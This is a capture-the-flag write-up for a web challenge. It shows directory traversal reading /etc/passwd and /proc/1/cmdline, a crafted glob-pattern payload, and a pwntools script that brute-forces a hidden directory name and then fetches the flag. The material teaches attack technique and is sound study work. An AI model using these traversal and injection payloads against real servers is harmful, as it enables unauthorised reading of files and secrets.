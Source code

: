 + we have directory traversal using `/../../../../etc/passwd`
+ using `/proc/1/cmdline`, we got this info: socatTCP4-LISTEN:8080,reuseaddr,forkEXEC:/app/badass_server.sh
+ from this, we were able to read the badass_server.sh file. 
+ `if  [  $protocol  !=  'HTTP/1.0'  ]  &&  [  $protocol  !=  'HTTP/1.1'  ];  then abort 'Invalid protocol'  fi` this was an interesting line from the script.
+ the aim is to leak the hidden directory containing the flag.
+ regex approach to match the name of the hidden directory.
payload: `/assets/f200d055a267ae56160198e0fcb47e5f/try_harder.tx /app/static/assets/[^fabcde1345678][^123457890abc][^abe][^abcdef124][^abcde1][^abcdef0134][^abdef012347][^012345678abcde][^103456789abcd][^abcdef013][^abcde01234567][^a-f0123456][^a-f0234][^b-f012345678][^ab][^678][^a][^a-f0][^134567890abcdef][^b-f01][^abdef1234567890][^a][^abcdef12340678][^b-f1][^01234568][^a-f01234][^abdef0123][^1234567890abcef][^a][^ac][^a-f02345][^a-f02345]*`

Script to automate the regex match is:
```
from pwn import *
known1 = 'f200d055a267ae56160198e0fcb47e5f'
known2 = '26c3f25922f71af3372ac65a75cd3b11'

total_payload = ''
directory = ''

def attempt(payload):
    conn = remote('chal-kalmarc.tf',8080)
    req = f"""
HEAD /assets/f200d055a267ae56160198e0fcb47e5f/try_harder.tx /app/static/assets/{total_payload}{payload}*
Host: chal-kalmarc.tf:8080
    """.lstrip() + "\r\n" * 2
    conn.send(req) 
    resp = conn.recvall()
    return resp

for i in range(len(known1)):
    flag = False
    charset = string.hexdigits[:-6]
    charset = charset.replace(known2[i], '')

    # case where known1[i] == target[i]
    payload = f"[{known1[i]}]"
    resp = attempt(payload)
    if b'No such file or directory' in resp:
        total_payload += payload
        directory += known1[i]
        print(directory)
        continue

    for c in charset:
        payload = f'[{c}{known1[i]}]'     
        resp = attempt(payload)
        if b'No such file or directory' in resp:
            total_payload += payload
            directory += c
            print(directory)
            flag = True
            break

    # no match by this point means known2[i] == target[i]
    if not flag:
        total_payload += f"[{known1[i]}{known2[i]}]"
        directory += known2[i]
        print(directory)
    
    print(total_payload)

print(directory)

flag_payload = f"""
GET /assets/{directory}/flag.txt HTTP/1.1
Host: chal-kalmarc.tf:8080
""".lstrip() + "\r\n" * 2

conn = remote('chal-kalmarc.tf',8080)
conn.send(flag_payload) 
print(conn.recvall())
```
Either way, you will find the hidden directory is 9df5256fe48859c91122cb92964dbd66 and you can find the flag located at /assets/9df5256fe48859c91122cb92964dbd66/flag.txt to solve it!